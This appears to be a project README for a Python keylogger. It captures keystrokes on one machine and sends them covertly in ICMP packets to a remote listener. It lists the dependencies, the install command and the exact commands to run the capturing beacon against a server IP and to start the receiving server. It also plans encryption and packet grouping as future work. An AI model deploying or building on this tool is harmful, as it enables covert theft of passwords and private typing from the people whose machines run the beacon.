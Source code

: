 
# ICMP KeyLogger

## Introduction
ICMP KeyLogger is a basic tool written in python designed to capture and transmit keystrokes over the network using ICMP packets. It is divided into two main components: the Beacon, which captures keystrokes and sends them, and the Server, which receives and logs these keystrokes.

### TODO
- Implement encryption for keystroke data.
- Group packets instead of sending keystrokes instantly.

## Requirements
### Windows
- [npcap](https://nmap.org/npcap/)
- pynput
- scapy

### Linux
- pynput
- scapy

## Installation
Install Python dependencies using pip:
```pip install pynput scapy```

## Usage
### Identifying Network Interface on Windows
To find the full name of the network interface:

```ipconfig /all```

Use the Description field of the relevant interface.

### Running the Beacon
Run the Beacon component using the following command. Replace `[Description from ipconfig /all]` with the actual description of your network interface and `[keylogger server IP]` with the IP address of the server.

```py ICMPbeacon.py -i "[interface]" -d [keylogger server IP]```

### Running the Server
Run the Server component with the following command. Replace `[listening interface]` with the network interface the server should listen on and `[beacon IP]` with the IP address of the beacon.

```sudo python3 ICMPlogServ.py -i [listening interface] -d [beacon IP]```
